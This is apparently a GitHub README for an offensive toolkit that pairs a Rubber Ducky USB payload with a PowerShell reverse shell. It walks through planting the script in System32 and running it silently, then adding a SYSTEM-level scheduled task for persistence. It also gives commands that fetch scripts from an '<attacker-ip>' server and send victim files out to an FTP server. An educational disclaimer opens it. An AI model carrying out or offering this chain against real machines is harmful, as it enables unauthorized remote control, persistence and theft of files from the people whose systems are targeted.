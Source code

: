 ⚠️ Disclaimer
This project is created strictly for educational purposes, penetration testing, and red team research in authorized environments only.

Any use of this code outside of a controlled, lawful environment — such as unauthorized access, system exploitation, or malicious deployment — is strictly prohibited and may be illegal.

The author(s) of this project do not endorse or support any illegal activity and assume no responsibility for misuse or damage caused by the use of this tool.

Always obtain explicit written permission before testing any system or network that you do not own.


---

#  Project Execution Flow
0. **Clone the GitHub Repo**

This setup consists of two main modules:

1. **Reverse Shell Module** – for gaining initial access and persistence.
2. **File Transfer Module** – for uploading files from the victim system to your own server via FTP.

---

##  Reverse Shell Module

> This module establishes a reverse shell from the victim machine back to the attacker system and ensures it persists across reboots and unlocks.

###  Prerequisite

* Start a Netcat listener on your attacker machine:

```bash
nc -nvlp 1111
```

This sets up a listener on port `1111` to receive the incoming reverse shell connection.

---

### 🔹 Step-by-Step

#### **1. Deploy `L.ps1` using Rubber Ducky**

* Copy the PowerShell reverse shell script `L.ps1` to the **Rubber Ducky** (CIRCUITPY drive).
* Flash the Rubber Ducky with the provided `payload.dd` Ducky Script.
* Plug the Ducky into the target machine. It will:

  * Copy `L.ps1` to `C:\Windows\System32\`
  * Execute it silently using PowerShell
* This establishes a reverse shell connection to your Netcat listener.

---

#### **2. Establish Persistence (Optional but Recommended)**

* On the victim system (via the reverse shell), run the **single-line persistence command** found in the `Schedule for nt authority` file.
* This command sets up a **scheduled task** that:

  * Runs `L.ps1` on system startup and unlock.
  * Uses **NT AUTHORITY\SYSTEM** privileges.

Once done, you will have a **persistent reverse shell** as SYSTEM — even after reboots or user unlocks.

---

##  File Transfer Module

> This module allows you to transfer files from and to the victim.

###  Prerequisite

* Start a local HTTP server on the attacker machine `File_Transfer`(ClonedRepo) folder:

```bash
python3 -m http.server 8000
```

---

### 🔹 Step-by-Step

#### **1. Download `put.ps1 and get.ps1` to Victim**

From the victim machine (via reverse shell), download the `put.ps1 and get.ps1` script using:

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/put.ps1" -OutFile "C:\Windows\System32\Transfer.ps1"
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/get.ps1" -OutFile "C:\Windows\System32\Transfer.ps1"
```

Replace `<attacker-ip>` with your actual IP address.

---

#### **2. Configure FTP Server**

* Host an FTP server on your machine using tools like `vsftpd`.
* Ensure:

  * The FTP server is running on the port defined in the script (default: `21`).
  * A directory named `uploads` should exist on the FTP server.

---

#### **3. Set Variables in for Transfer**

Before executing the script, set the following variables:

```powershell
$IP="192.168.1.16:8000"
$ftpserver = "192.168.1.10"
$ftpport = 21
$ftpusername = "username" 
$ftppassword = "password"

```

**Note: Now that everything is set you need to run put.ps1 and get.ps1 on the reverse shell (here on in future after you close this shell you have and ge a new one there is no need to run the get.ps1 and put.ps1 again.)**

---

#### **4. Transfer the files**

The commad to download the file from the victim is as follows:

```powershell
get "File_Name"
```

This will upload the specified file(s) to your FTP server’s `/uploads` directory.

---

The commad to put the file to the victim is as follows:

```powershell
put "File_Name"
```

This will upload the specified file(s) to the victim directory.

**Note: Make sure you are running the python http server and that server directory contains the file you want to put on the victim.**

---